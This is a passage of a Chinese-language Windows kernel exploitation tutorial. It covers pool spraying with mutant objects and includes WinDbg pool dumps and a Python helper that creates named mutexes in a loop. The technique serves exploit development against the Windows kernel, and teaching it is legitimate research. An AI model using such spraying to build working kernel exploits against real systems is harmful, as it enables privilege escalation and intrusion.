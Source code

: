 

```
lkd&gt; !pool 86e031a8  
Pool page 86e031a8 region is Nonpaged pool
 86e03000 size:   98 previous size:    0  (Allocated)  IoCo (Protected)
 86e03098 size:   90 previous size:   98  (Allocated)  MmCa
 86e03128 size:   40 previous size:   90  (Allocated)  Even (Protected)
 86e03168 size:   10 previous size:   40  (Free)       Icp 
*86e03178 size:   50 previous size:   10  (Allocated) *Muta (Protected)
  Pooltag Muta : Mutant objects
 86e031c8 size:   40 previous size:   50  (Allocated)  Even (Protected)
 86e03208 size:   40 previous size:   40  (Allocated)  Even (Protected)
```

它显示在非分页池中需要 0x50 字节大小的位置。无论我们重复多少次，都是 0x50。看起来确实如此。如果我们将之前的代码放在一个循环中，我们可以看到它能够工作，并且可以进行很棒的堆喷射：



```
851ef118 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef168 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef1b8 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef208 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef258 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef2a8 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef2f8 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef348 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef398 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef3e8 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef438 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef488 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef4d8 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef528 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef578 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef5c8 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef618 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef668 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef6b8 size:   50 previous size:   50  (Allocated)  Muta (Protected)
 851ef708 size:   50 previous size:   50  (Allocated)  Muta (Protected)
```

那么如果我们给 Mutex 取一个名字，会有什么样的变化？这是另一段 Python 代码：



```
def alloc_named_mutex(i):
        hHandle = HANDLE(0)
hHandle = kernel32.CreateMutexA(None, False, "Pool spraying is cool " + str(i))
if hHandle == None:
                print "[-] Error while creating mutex"
  sys.exit()
print hex(hHandle)
```

我给它传递了一个参数，因为如果我们要使用它来进行喷射，这将是很重要的，因为我们不能创建两个具有相同命名的 mutex。
